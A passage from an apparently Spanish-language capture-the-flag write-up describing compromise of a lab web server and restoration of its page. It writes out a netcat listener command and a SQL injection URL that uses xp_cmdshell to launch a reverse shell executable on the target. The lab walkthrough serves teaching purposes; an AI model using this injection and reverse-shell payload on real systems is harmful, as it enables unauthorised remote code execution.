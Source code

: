 Verificamos el output en la terminal:

![python server](img/7.png)

Ahora tenemos que levantar el listener en el puerto 4444:

```shell
nc -lnvp 4444
```

E inyectar la ejecución del reverse shell:

```sql
http://10.10.82.23/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

Revisamos el output en la terminal:

![netcat](img/8.png)

Nos desplazamos por el sistema para obtener información:

![flag](img/9.png)

### Recuperando la página

Moviéndonos por el sistema encontramos lo siguiente:

![restore website](img/10.png)

Ejecutamos `restore_website.bat`:

![restore website exec](img/11.png)

Y volvemos a la página inicial para ver los cambios:

![web restaurada](img/12.png)

### Respuesta

<details><summary>Spoiler</summary></details>

### [Volver a inicio](../../README.md)
